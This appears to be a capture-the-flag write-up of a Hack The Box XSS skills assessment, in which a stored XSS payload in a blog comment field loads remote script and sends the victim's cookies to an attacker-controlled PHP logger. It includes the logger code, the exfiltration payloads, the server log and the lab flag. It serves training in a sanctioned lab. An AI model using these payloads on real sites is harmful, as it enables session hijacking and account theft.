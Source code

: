 ```yaml
---
sticker: lucide//code
---
```

We are performing a Web Application Penetration Testing task for a company that hired you, which just released their new `Security Blog`. In our Web Application Penetration Testing plan, we reached the part where you must test the web application against Cross-Site Scripting vulnerabilities (XSS).

Start the server below, make sure you are connected to the VPN, and access the `/assessment` directory on the server using the browser:

   

![](https://academy.hackthebox.com/storage/modules/103/xss_skills_assessment_website.jpg)

Apply the skills you learned in this module to achieve the following:

1. Identify a user-input field that is vulnerable to an XSS vulnerability
2. Find a working XSS payload that executes JavaScript code on the target's browser
3. Using the `Session Hijacking` techniques, try to steal the victim's cookies, which should contain the flag


### Identifying the vulnerable parameter
---

Once we go into the website we can see the following:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250130180314.png)

If we go to the `Welcome to Security Blog` URL, we can see the following:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250130180344.png)

At first glance, the comments section seems vulnerable to XSS, let's test some simple payload to check the behavior of the web application, we can set up the same PHP server form the [[CYBERSECURITY/Bug Bounty/HTB BUG BOUNTY HUNTER PATH/CROSS-SITE SCRIPTING (XSS)/XSS Attacks/Session Hijacking.md|Session Hijacking]] section:

```php
<?php  
if (isset($_GET['c'])) {  
$list = explode(";", $_GET['c']);  
foreach ($list as $key => $value) {  
$cookie = urldecode($value);  
$file = fopen("cookies.txt", "a+");  
fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");  
fclose($file);  
}  
}  
?>
```

```js
document.location='http://10.10.15.141/index.php?c='+document.cookie;  
new Image().src='http://10.10.15.141/index.php?c='+document.cookie;
```

We can send the payloads in each section to check which one is vulnerable:

```js
"><script src=http://10.10.15.141/script.js></script>
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250130181138.png)

After a bit, we'll get the following in our server:

```
[Thu Jan 30 23:10:18 2025] PHP 8.3.15 Development Server (http://0.0.0.0:80) started
[Thu Jan 30 23:11:08 2025] 10.129.147.238:37824 Accepted
[Thu Jan 30 23:11:08 2025] 10.129.147.238:37824 [200]: GET /script.js
[Thu Jan 30 23:11:08 2025] 10.129.147.238:37824 Closing
[Thu Jan 30 23:11:08 2025] 10.129.147.238:37826 Accepted
[Thu Jan 30 23:11:08 2025] 10.129.147.238:37826 [200]: GET /index.php?c=wordpress_test_cookie=WP%20Cookie%20check;%20wp-settings-time-2=1738278667;%20flag=HTB{cr055_5173_5cr1p71n6_n1nj4}
[Thu Jan 30 23:11:08 2025] 10.129.147.238:37826 Closing
[Thu Jan 30 23:11:09 2025] 10.129.147.238:37828 Accepted
[Thu Jan 30 23:11:14 2025] 10.129.147.238:37828 Closed without sending a request; it was probably just an unused speculative preconnection
[Thu Jan 30 23:11:14 2025] 10.129.147.238:37828 Closing
```

We got the flag: `HTB{cr055_5173_5cr1p71n6_n1nj4}`

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250130181248.png)

